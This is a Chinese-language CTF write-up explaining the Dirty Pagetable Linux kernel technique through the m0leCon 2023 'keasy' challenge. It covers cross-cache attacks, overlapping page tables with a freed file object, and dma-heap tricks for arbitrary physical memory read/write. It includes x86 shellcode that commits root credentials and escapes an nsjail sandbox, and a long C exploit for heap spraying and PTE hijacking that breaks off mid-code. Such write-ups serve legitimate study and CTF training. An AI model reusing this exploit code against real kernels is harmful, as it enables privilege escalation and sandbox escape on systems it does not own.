# Dirty Pagetable 学习 & 例题-先知社区

> **来源**: https://xz.aliyun.com/news/16299  
> **文章ID**: 16299

---

# dirty\_pagetable

**附件:**

[mowenroot/Kernel](https://github.com/mowenroot/Kernel)

**参考:**

[Dirty Pagetable 学习 & 例题 - Henry Martin](https://henrymartin262.github.io/2024/04/10/Dirty-pagetable-study/#利用过程)

[Cross Cache Attack技术细节分析](https://veritas501.github.io/2023_03_07-Cross Cache Attack技术细节分析/)

<https://yanglingxi1993.github.io/dirty_pagetable/dirty_pagetable.html>

<https://ptr-yudai.hatenablog.com/entry/2023/12/08/093606>

## dirty pagetable介绍

利用堆漏洞(`uaf/double free`)来篡改末级页表中的`PTE`条目，实现任意物理地址读写，可绕过`CFI、KASLR、SMAP/PAN`等保护。

## dirty pagetable步骤

这里以`uaf`漏洞为例子

1. 触发`uaf`漏洞释放`object`并将`victim slab`释放回伙伴系统

   释放`uaf object`并将所在`slab`其他`object`全部释放，然后释放其他`slab`，把当前`victim slab`释放进伙伴系统，整个过程就是`Cross cache Attack`，详细分析看我上一篇文章。
2. 用用户页表占用`victim slab`

   用户页表是直接用页面分配器分配的，分配用户页表来占用`victim slab`，需要使用的最后一级页表。如下图所示就是占用成功的情况:



1. 篡改页表条目(`PTE`)

   利用`vimctim object`本身原语来篡改`pte`条目，举个最简单的例子，就假设有个系统调用修改`vimctim object`中的内容。
2. 利用`PTE`来`patch`内核

   将`pte`的物理地址设置为内核`text`的物理地址，就能`patch`内核了，使用提权的话可以`patch` `sys_setresuid()`,这样非特权用户也能调用
3. 提权

```
setresuid(0, 0, 0);
system("/system/bin/sh");

```

## 例题 m0leCon Finals 2023-keasy

启动文件，保护都开启



源码还是很简单的，留有一个`file object`的`uaf`漏洞



如果`copy_to_user`的时候传入无效地址，这个时候会拷贝失败，会调用`fput()`减少当前文件引用计数，计数为0了并且为匿名文件，就会把申请的文件结构体释放掉。当前`fd`仍然绑定存在就可以对已经释放的`file object`进行操作。

#### 利用过程



#### 利用分析

**`Cross cache Attack`**

因为`file object` 使用的`slab`是独立的，所以在一个`slab`中完成`uaf`的利用难以实现，需要跨缓存攻击，详细分析参考我上一篇文章。

**一、堆喷`file object && 构造uaf object`**

先堆喷file结构体，具体需要堆喷多少需要看看三个重要的参数，用来构造跨缓存攻击



```
puts("== STEP 1 ==");
    logi("spray filp struct && make uaf object");

    for (size_t i = 0; i < SPRAY_FILE_COUNT; i++)
    {
        if(i==SPRAY_FILE_COUNT/2){
            uaf_fd=spray_fd[fd_sp-1];
            uaf_fd++;
            ioctl(dev_fd,0,0xdeadbeef);
        }
       spray_fd[fd_sp++]=open("/",O_RDONLY);
    }

```

这个`file object` 已经成为`uaf object` 了通过`fd`仍然可以对这个结构体操作，`f_count`这个属性很重要之后详细讲解



**二、释放所有`filp object`**

释放所有`filp object` 之后`uaf object` 所在的`slab`会被`page allocator` 回收，到这里都是`Cross Cache Attack` 的过程

```
for (int i = 0; i < SPRAY_FILE_COUNT; i++){
        if(spray_fd[i])close(spray_fd[i]);
    }

```

**三、让PTE占用victim slab**

这个时候`victim slab`已经被回收，不再是独立的`slab`，然后使用`mmap`分配物理地址空间并填充页表项让`pagetable` 占用`victim slab`。

注意的是需要先使用`mmap`来获得虚拟地址，直接使用`MAP_POPULATE`分配物理内存地址让末级页表占用`victim slab`成功率不是太高，先分配虚拟地址之后并不会马上分配物理内存空间，需要对这个虚拟内存操作之后内核发现这个地址缺页然后才会分配物理地址空间，这个时候最后一级页表会占用`victim slab`，如下图所示。



**四、寻找`victim pte`**

这里的`victim pte`是被篡改的页表项，`file object` 中有一个`f_count`这个参数表示文件计数引用，那这个是可以增加或者减少的，增加通过`dup(fd)`就可以加一，那增加`0x1000`之后就能完成两个`pte`条目的重叠，并且还是指向自己`page`。

```
struct file {
        union {
                struct llist_node  fu_llist;             /*     0     8 */
                struct callback_head fu_rcuhead;         /*     0    16 */
        } f_u;                                           /*     0    16 */
        struct path                f_path;               /*    16    16 */
        struct inode *             f_inode;              /*    32     8 */
        const struct file_operations  * f_op;            /*    40     8 */
        spinlock_t                 f_lock;               /*    48     4 */
        enum rw_hint               f_write_hint;         /*    52     4 */
        atomic_long_t              f_count;              /*    56     8 */
        /* --- cacheline 1 boundary (64 bytes) --- */
        unsigned int               f_flags;              /*    64     4 */
        fmode_t                    f_mode;               /*    68   0x44  4 */
        struct mutex               f_pos_lock;           /*    72    32 */
        loff_t                     f_pos;                /*   104     8 */
        struct fown_struct         f_owner;              /*   112    32 */
        /* --- cacheline 2 boundary (128 bytes) was 16 bytes ago --- */
        const struct cred  *       f_cred;               /*   144     8 */
        struct file_ra_state       f_ra;                 /*   152    32 */
        u64                        f_version;            /*   184     8 */
        /* --- cacheline 3 boundary (192 bytes) --- */
        void *                     f_security;           /*   192     8 */
        void *                     private_data;         /*   200     8 */
        struct hlist_head *        f_ep;                 /*   208     8 */
        struct address_space *     f_mapping;            /*   216     8 */
        errseq_t                   f_wb_err;             /*   224     4 */
        errseq_t                   f_sb_err;             /*   228     4 */

        /* size: 232, cachelines: 4, members: 21 */
        /* last cacheline: 40 bytes */
};

```



所对应的内容也从`'H'-> 'A'`



如下图所示，刚开始的`pte`都是正常的



通过`dup`增加`0x1000`后被攻击的`victim pte`指向的`page`和原本的重叠，可以很轻松的构造两个`page`重叠。



**五、使用dma-heap替换victim pte**

当然我们可以很轻松的构造两个`page`重叠，但是一直使用`dup()`去让页表指向一个内核`text/data`地址是很困难的。

并且通过`munmap()`释放`page`，构造出`uaf page`,然后再用`page table` 填充该`page` 完成对`page table`修改的也很困难的。原因如下:

> `anonymous mmap()`中分配得到的页来自于 **MIGRATE\_MOVABLE free\_area of the memory zone**(页面可以移动,适用于动态分配的用户空间内存)，
>
> **用户页表**分配的 page 来自于 **MIGRATE\_UNMOVABLE free\_area of the memory zone**(页面不可移动,适用于要求地址稳定的内核数据或设备映射(DMA))

这里采用`dma-heap`，通过`/dev/dma_heap/system`完成利用,`dma-heap`的申请分配`page`来自`MIGRATE_UNMOVABLE free_area of the memory zone`，并且他们从相同`order`分配页面。

```
struct dma_heap_allocation_data dmas={0};
dmas.len=0x1000;
dmas.fd_flags=2;
ioctl(dma_fd,DMA_HEAP_IOCTL_ALLOC,&dmas);
munmap(hijack_p,0x1000);
char* dma_buf = (char*)mmap(hijack_p,0x1000,PROT_WRITE|PROT_READ,
                            MAP_POPULATE|MAP_SHARED,dmas.fd,0);

```

释放原本的`victim pte`



然后重新映射上`dma-buf`,需要特别注意的是`dma_buf` 所在的物理位置是和 `page_table` 紧邻的，因为从相同order分配。



特别近的距离，增加`0x1000`之后就会到达`page table`处



**六、任意物理地址读写**

先使用`dup()`增加`dma-buf`地址到`page table` 处,然后就可以任意篡改`pte`



**`leak physical kernel base`**

在 `Linux` 上仍有一些固定的物理地址，在这些地址中保留了页表的数据，都是从 `0xffff888000000000` 开始的，需要加上偏移来看。



在物理地址`0x9c000`处会有一个地址，该地址对应虚拟内存地址为内核`.text`地址，因为`direct mapping area`的存在所有映射会有两个显示。



#### nsjail 逃逸

这个俺也不会，直接拿原作者中的 `shellcode` 来打了，在`nsjail` 中可以调用`symlink`。

然后通过任意写去 `patch do_symlinkat` 系统调用的函数功能，完整 shellcode 如下：

```
init_cred         equ 0x1445ed8
  commit_creds      equ 0x00ae620
  find_task_by_vpid equ 0x00a3750
  init_nsproxy      equ 0x1445ce0
  switch_task_namespaces equ 0x00ac140
  init_fs                equ 0x1538248
  copy_fs_struct         equ 0x027f890
  kpti_bypass            equ 0x0c00f41

_start:
  endbr64
  call a
a:
  pop r15
  sub r15, 0x24d4c9

  ; commit_creds(init_cred) [3]
  lea rdi, [r15 + init_cred]
  lea rax, [r15 + commit_creds]
  call rax

  ; task = find_task_by_vpid(1) [4]
  mov edi, 1
  lea rax, [r15 + find_task_by_vpid]
  call rax

  ; switch_task_namespaces(task, init_nsproxy) [5]
  mov rdi, rax
  lea rsi, [r15 + init_nsproxy]
  lea rax, [r15 + switch_task_namespaces]
  call rax

  ; new_fs = copy_fs_struct(init_fs) [6]
  lea rdi, [r15 + init_fs]
  lea rax, [r15 + copy_fs_struct]
  call rax
  mov rbx, rax

  ; current = find_task_by_vpid(getpid())
  mov rdi, 0x1111111111111111   ; will be fixed at runtime
  lea rax, [r15 + find_task_by_vpid]
  call rax

  ; current->fs = new_fs [8]
  mov [rax + 0x740], rbx

  ; kpti trampoline [9]
  xor eax, eax
  mov [rsp+0x00], rax
  mov [rsp+0x08], rax
  mov rax, 0x2222222222222222   ; win
  mov [rsp+0x10], rax
  mov rax, 0x3333333333333333   ; cs
  mov [rsp+0x18], rax
  mov rax, 0x4444444444444444   ; rflags
  mov [rsp+0x20], rax
  mov rax, 0x5555555555555555   ; stack
  mov [rsp+0x28], rax
  mov rax, 0x6666666666666666   ; ss
  mov [rsp+0x30], rax
  lea rax, [r15 + kpti_bypass]
  jmp rax

  int3

```

exp效果



#### exp

```
#define _GNU_SOURCE 
#include<stdio.h>
#include<sys/types.h>
#include<sys/stat.h>
#include<fcntl.h>
#include <stdlib.h>
#include <string.h>
#include<unistd.h>
#include<sys/mman.h>
#include<signal.h>
#include<pthread.h>
#include<linux/userfaultfd.h>
#include <sys/ioctl.h>
#include<syscall.h>
#include<poll.h>
#include <semaphore.h>
#include <sched.h>

#pragma pack(16)
#define __int64 long long
#define CLOSE printf("\033[0m\n");
#define RED printf("\033[31m");
#define GREEN printf("\033[36m");
#define BLUE printf("\033[34m");
#define YELLOW printf("\033[33m");
#define _QWORD unsigned long
#define _DWORD unsigned int
#define _WORD unsigned short
#define _BYTE unsigned char
#define COLOR_GREEN "\033[32m"
#define COLOR_RED "\033[31m"
#define COLOR_YELLOW "\033[33m"
#define COLOR_BLUE "\033[34m"
#define COLOR_DEFAULT "\033[0m"
#define showAddr(var)  dprintf(2, COLOR_GREEN "[*] %s -> %p\n" COLOR_DEFAULT, #var, var); 
#define logd(fmt, ...) dprintf(2, COLOR_BLUE "[*] %s:%d " fmt "\n" COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)
#define logi(fmt, ...) dprintf(2, COLOR_GREEN "[+] %s:%d " fmt "\n" COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)
#define logw(fmt, ...) dprintf(2, COLOR_YELLOW "[!] %s:%d " fmt "\n" COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)
#define loge(fmt, ...) dprintf(2, COLOR_RED "[-] %s:%d " fmt "\n" COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)
#define die(fmt, ...)                      \
    do {                                   \
        loge(fmt, ##__VA_ARGS__);          \
        loge("Exit at line %d", __LINE__); \
        exit(1);                           \
    } while (0)

size_t raw_vmlinux_base = 0xffffffff81000000;
size_t raw_direct_base=0xffff888000000000;
size_t commit_creds = 0,prepare_kernel_cred = 0;
size_t vmlinux_base = 0;
size_t swapgs_restore_regs_and_return_to_usermode=0;
size_t user_cs, user_ss, user_rflags, user_sp;
size_t init_cred=0;
size_t __ksymtab_commit_creds=0,__ksymtab_prepare_kernel_cred=0;
void save_status();
size_t find_symbols();
void _showAddr(char*name,size_t data);
void getshell(void);
size_t cvegetbase();
void bind_cpu(int core);

int dev_fd;
int dma_fd;
const char* FileAttack="/dev/keasy\0";

#define SPRAY_FILE_COUNT 0x100
#define SPRAY_PAGE_COUNT 0x200
#define  DMA_HEAP_IOCTL_ALLOC 0xc0184800
int spray_fd[SPRAY_FILE_COUNT];
void* spray_page[SPRAY_PAGE_COUNT];

typedef unsigned long long u64;
typedef unsigned int u32;
struct dma_heap_allocation_data {
  u64 len;
  u32 fd;
  u32 fd_flags;
  u64 heap_flags;
};

static void win() {
  char buf[0x100];
  int fd = open("/dev/sda", O_RDONLY);
  if (fd < 0) {
    puts("[-] Lose...");
  } else {
    puts("[+] Win!");
    read(fd, buf, 0x100);
    write(1, buf, 0x100);
    puts("[+] Done");
    pause();
  }
  exit(0);
}


int main(void){
   save_status();
   BLUE;puts("[*]start");CLOSE;
   dev_fd = open(FileAttack,2);
    if(dev_fd < 0){
        die("open failed");
    }
    dma_fd=open("/dev/dma_heap/system",0);
    if(dma_fd<0){
        die("open failed dma");
    }
    bind_cpu(0);

    int fd_sp=0;
    int uaf_fd=-1;

    puts("spray page standby after fill ptes");
     for (size_t i = 0; i < SPRAY_PAGE_COUNT; i++)
    {
        spray_page[i]=mmap((0xdead0000UL + i*(0x10000UL)),0x8000,
                            PROT_READ|PROT_WRITE,
                            MAP_ANONYMOUS|MAP_SHARED,
                            -1,0);
    }

    puts("== STEP 1 ==");
    logi("spray filp struct && make uaf object");

    for (size_t i = 0; i < SPRAY_FILE_COUNT; i++)
    {
        if(i==SPRAY_FILE_COUNT/2){
            uaf_fd=spray_fd[fd_sp-1];
            uaf_fd++;
            ioctl(dev_fd,0,0xdeadbeef);
        }
       spray_fd[fd_sp++]=open("/",O_RDONLY);
    }

    puts("== STEP 2 ==");
    logi("free filp struct to construct Cross Cache Attack");

    for (int i = 0; i < SPRAY_FILE_COUNT; i++){
        if(spray_fd[i])close(spray_fd[i]);
    }
    puts("== STEP 3 ==");
    logi("spray PTEs to fill the uaf filp objects");

    struct dma_heap_allocation_data dmas={0};
    dmas.len=0x1000;
    dmas.fd_flags=2;

    for (size_t i = 0; i < SPRAY_PAGE_COUNT; i++)
    {
        if(i==SPRAY_PAGE_COUNT/2){
             int f=ioctl(dma_fd,DMA_HEAP_IOCTL_ALLOC,&dmas);
             if(f<0) die("DMA_HEAP_IOCTL_ALLOC");
        }
        for (size_t j = 0; j < 8; j++)
        {
           *(char*)(spray_page[i]+j*0x1000)= 'A'+j;
        }
    }


    puts("== STEP 4 ==");
    logi("hijack pte");    

    for (size_t i = 0; i < 0x1000; i++)
    {
        dup(uaf_fd);
    }

    puts("== STEP 5 ==");
    logi("find uaf object for pte");    
    char* hijack_p =NULL;
    for (size_t i = 0; i < SPRAY_PAGE_COUNT; i++)
    {
        if(*(char*)(spray_page[i]+7*0x1000)!='A'+7){
            hijack_p=(char*)(spray_page[i]+7*0x1000);
            printf("mmap fd -> %d th\n",i);
            printf("found page addr -> %p\n",hijack_p);
            break;
        }
    }
    if(hijack_p==NULL)die("not found");

    puts("== STEP 5 ==");
    logi("try to change pte's page");
    showAddr(hijack_p);
    munmap(hijack_p,0x1000);

    char* dma_buf = (char*)mmap(hijack_p,0x1000,PROT_WRITE|PROT_READ,
                                MAP_POPULATE|MAP_SHARED,dmas.fd,0);

    //需要立即分配物理页面 MAP_POPULATE
    size_t* ldma_buf = (size_t*)dma_buf;
